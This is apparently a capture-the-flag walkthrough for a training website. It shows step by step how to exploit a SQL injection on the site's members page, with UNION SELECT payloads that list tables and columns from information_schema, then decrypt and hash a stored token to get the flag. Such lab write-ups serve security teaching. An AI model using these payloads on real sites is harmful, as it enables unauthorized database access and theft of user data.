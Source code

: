 1. go to website then click on members
2. try see if ("1 or 1 = 1)" returns members
3. then type "(1 or 1 = 1 UNION SELECT table_schema, table_name FROM information_schema.TABLES)"
4. use the search function(ctrl + f) and search for a table called users.
5. once you have found a table called users now its time to find the columns init.
6. then type "(1 or 1 = 1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS)"
7. search for users and you should find 8 columns.
8. column names are as followed user_id, first_name, last_name, town, country, planet, commentaire, countersign
9. decrypt the token which gives you "FortyTwo"
10. then sha256 encrypt "Sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5"